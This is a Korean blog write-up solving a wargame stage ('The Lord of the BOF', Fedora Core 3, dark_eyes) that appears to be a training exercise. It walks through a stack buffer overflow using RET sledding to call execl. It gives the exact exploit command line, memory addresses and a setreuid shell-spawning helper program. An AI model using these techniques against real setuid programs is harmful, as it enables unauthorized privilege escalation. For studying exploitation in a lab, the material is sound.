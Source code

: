 ```yaml
---
title: FC3 iron_golem -> dark_eyes
slug: fc3-iron_golem
date: 2017-01-05 01:40:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


ret sleding에 대해 쓰는 글

아래는 코드

```c
/*
    The Lord of the BOF : The Fellowship of the BOF
    - dark_eyes
    - Local BOF on Fedora Core 3
    - hint : RET sleding
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    char saved_sfp[4];

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    // save sfp
    memcpy(saved_sfp, buffer+264, 4);

    // overflow!!
    strcpy(buffer, argv[1]);

    // restore sfp
    memcpy(buffer+264, saved_sfp, 4);

    printf("%s\n", buffer);
}
```

buffer+264번지에 sfp, buffer+268번지에 ret이 있다. 이 단계는 sfp를 쓸 수 없다.

RET sleding은 ret으로 ret 명령어가 있는 주소를 가리키는 걸 뜻한다.

ret ret ret은 pop eip, pop eip, pop eip를 뜻하는데, 스택을 파괴하는 nop 느낌으로 쓰면 될듯.

이 문제에서 이걸 이용해서 어떻게 푸냐... 하면 execl 함수를 호출할 때 사용할 것이다.

참고로 execl은 execl("/bin/sh", NULL); 같은 느낌으로 써주면 된다.

얼추 내가 원하는 모양을 써서 gdb로 확인해보면

![gdb 1](gdb-1.png)

execl(0x0083eff4, 0x00000000);과 같은 식으로 호출되면 참 그림이 좋을 것 같다. 0x007a5720을 오른쪽으로 2번 밀어주자.

그럼 아래와 같은 코드가 완성된다.

./dark_eyes "`python -c 'print "A"*268 + "\xb9\x84\x04\x08"*3 + "\x20\x57\x7a"'`"

참고로 0x080484b9는 ret 명령어 주소, 0x007a5720은 execl 함수 주소.

그리고 0x0083eff4에는

![gdb 2](gdb-2.png)

0x83ed3c가 있다.

아래와 같은 코드를 작성해서 0x83ed3c로 실행파일명을 준비해주자.

```c
#include <unistd.h>
int main() {
    setreuid(geteuid(), geteuid());
    system("/bin/sh");
    return 0;
}
```

```sh
gcc shell.c -o `python -c 'print "\x3c\xed\x83"'`
```

그 다음에 저 위에 써놓은 코드를 쓰면 sh 실행이 된다.

